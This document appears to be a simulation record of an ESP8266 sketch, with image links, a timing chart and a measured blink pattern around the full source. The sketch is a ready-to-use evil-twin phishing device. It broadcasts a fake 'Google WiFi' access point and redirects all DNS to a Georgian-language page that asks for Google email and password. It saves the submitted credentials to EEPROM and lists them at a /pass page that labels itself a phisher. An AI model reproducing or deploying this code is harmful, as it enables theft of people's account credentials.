
A sketch run on a simulated ESP8266 (NodeMCU). Shown: output pins drawn as LEDs (lit = HIGH, except the on-board LED, lit = LOW). Dashed ring = blinking. The inputs (shaded band) are chosen by the test bench. EEPROM starts erased; what the sketch prints to the serial monitor is not drawn.

Above: at 1.2 s.
1.3 s: HTTP request GET /post received
At 1.7 s:

Timing chart, 0 to 7.3 s (numbered marks = the images above; inputs shaded):


Measured:
- after the input at 1.3 s, GPIO 2: alternates HIGH for 0.50 s and LOW for 0.50 s, 10 changes in all, then stays HIGH, starting at once

The sketch:

ESP_HOOK.ino
```cpp
#include <ESP8266WiFi.h>
#include <DNSServer.h>
#include <ESP8266WebServer.h>
#include <EEPROM.h>

const char* SSID_NAME = "Google WiFi";

#define SUBTITLE "გუგლის უფასო ვაიფაი საქართველოში."
#define TITLE "ინტერნეტის მისაღებად შეიყვანე შენი google ანგარიში"
#define BODY "დაადასტურეთ თქვენი იდენტობა, ველებში შეიყვანეთ e-mail და პაროლი."
#define POST_TITLE "მოწმდება იდენტობა..."
#define POST_BODY "ამას შეიძლება რამდენიმე წამი დასჭირდეს, თქვენ მალე მიიღებთ ინტერნეტთან წვდომას."
#define PASS_TITLE "პარლების სია"
#define CLEAR_TITLE "გასუფთავდა"

const byte HTTP_CODE = 200;
const byte DNS_PORT = 53;
const byte TICK_TIMER = 1000;
IPAddress APIP(172, 0, 0, 1);

String allPass = "";
String currentSSID = "";

int initialCheckLocation = 20;
int passStart = 30;
int passEnd = passStart;


unsigned long bootTime=0, lastActivity=0, lastTick=0, tickCtr=0;
DNSServer dnsServer; ESP8266WebServer webServer(80);

String input(String argName) {
  String a = webServer.arg(argName);
  a.replace("<","&lt;");a.replace(">","&gt;");
  a.substring(0,200); return a; }

String footer() {
  return "</div><div class=q><a>&#169; All rights reserved.</a></div>";
}

String header(String t) {
  String a = String(currentSSID);
  String CSS = "article { background: #f2f2f2; padding: 1.3em; }"
    "body { color: #333; font-family: Century Gothic, sans-serif; font-size: 18px; line-height: 24px; margin: 0; padding: 0; }"
    "div { padding: 0.5em; }"
    "h1 { margin: 0.5em 0 0 0; padding: 0.5em; }"
    "input { width: 100%; padding: 9px 10px; margin: 8px 0; box-sizing: border-box; border-radius: 0; border: 1px solid #555555; border-radius: 10px; }"
    "label { color: #333; display: block; font-style: italic; font-weight: bold; }"
    "nav { background: #0066ff; color: #fff; display: block; font-size: 1.3em; padding: 1em; }"
    "nav b { display: block; font-size: 1.5em; margin-bottom: 0.5em; } "
    "textarea { width: 100%; }";
  String h = "<!DOCTYPE html><html>"
    "<head><title>" + a + " :: " + t + "</title>"
    "<meta name=viewport content=\"width=device-width,initial-scale=1\">"
    "<style>" + CSS + "</style>"
    "<meta charset=\"UTF-8\"></head>"
    "<body><nav><b>" + a + "</b> " + SUBTITLE + "</nav><div><h1>" + t + "</h1></div><div>";
  return h; }

String index() {
  return header(TITLE) + "<div>" + BODY + "</ol></div><div><form action=/post method=post><label>Google Account</label>"+
    "<input name=emailinput placeholder='ემაილი:'><input type=password name=pswdinput placeholder='პაროლი:'></input><input type=submit value=შესვლა></form>" + footer();
}

String posted() {
  String email = input("emailinput");
  String pass = input("pswdinput");
  pass = "<li><b>"+ email + " - " + pass + "</li></b>";
  allPass += pass;

  for (int i = 0; i <= pass.length(); ++i)
  {
    EEPROM.write(passEnd + i, pass[i]);
  }

  passEnd += pass.length();
  EEPROM.write(passEnd, '\0');
  EEPROM.commit();
  return header(POST_TITLE) + POST_BODY + footer();
}

String pass() {
  return header(PASS_TITLE) + "<ol>" + allPass + "</ol><br><center><p><a style=\"color:blue\" href=/>ფიშერზე გადასვლა</a></p><p><a style=\"color:blue\" href=/clear>პაროლების გასუფთავება</a></p></center>" + footer();
}


String clear() {
  allPass = "";
  passEnd = passStart;
  EEPROM.write(passEnd, '\0');
  EEPROM.commit();
  return header(CLEAR_TITLE) + "<div><p>პაროლები გაქრა.</div></p><center><a style=\"color:blue\" href=/>უკან</a></center>" + footer();
}

void BLINK() {
  for (int counter = 0; counter < 10; counter++)
  {
    // For blinking the LED.
    digitalWrite(BUILTIN_LED, counter % 2);
    delay(500);
  }
}

void setup() {
  Serial.begin(115200);
  bootTime = lastActivity = millis();
  EEPROM.begin(512);
  delay(10);

  String checkValue = "first"; // This will will be set in EEPROM after the first run.

  for (int i = 0; i < checkValue.length(); ++i)
  {
    if (char(EEPROM.read(i + initialCheckLocation)) != checkValue[i])
    {
      // Add "first" in initialCheckLocation.
      for (int i = 0; i < checkValue.length(); ++i)
      {
        EEPROM.write(i + initialCheckLocation, checkValue[i]);
      }
      EEPROM.write(0, '\0');
      EEPROM.write(passStart, '\0');
      EEPROM.commit();
      break;
    }
  }

  String ESSID;
  int i = 0;
  while (EEPROM.read(i) != '\0') {
    ESSID += char(EEPROM.read(i));
    i++;
  }

  while (EEPROM.read(passEnd) != '\0')
  {
    allPass += char(EEPROM.read(passEnd));
    passEnd++;
  }

  WiFi.mode(WIFI_AP);
  WiFi.softAPConfig(APIP, APIP, IPAddress(255, 255, 255, 0));

  currentSSID = ESSID.length() > 1 ? ESSID.c_str() : SSID_NAME;

  Serial.print("Current SSID: ");
  Serial.print(currentSSID);
  WiFi.softAP(currentSSID);

  dnsServer.start(DNS_PORT, "*", APIP);
  webServer.on("/post",[]() { webServer.send(HTTP_CODE, "text/html", posted()); BLINK(); });
  webServer.on("/pass",[]() { webServer.send(HTTP_CODE, "text/html", pass()); });
  webServer.on("/clear",[]() { webServer.send(HTTP_CODE, "text/html", clear()); });
  webServer.onNotFound([]() { lastActivity=millis(); webServer.send(HTTP_CODE, "text/html", index()); });
  webServer.begin();

  pinMode(BUILTIN_LED, OUTPUT);
  digitalWrite(BUILTIN_LED, HIGH);
}


void loop() {
  if ((millis() - lastTick) > TICK_TIMER) {lastTick = millis();}
dnsServer.processNextRequest(); webServer.handleClient(); }
```
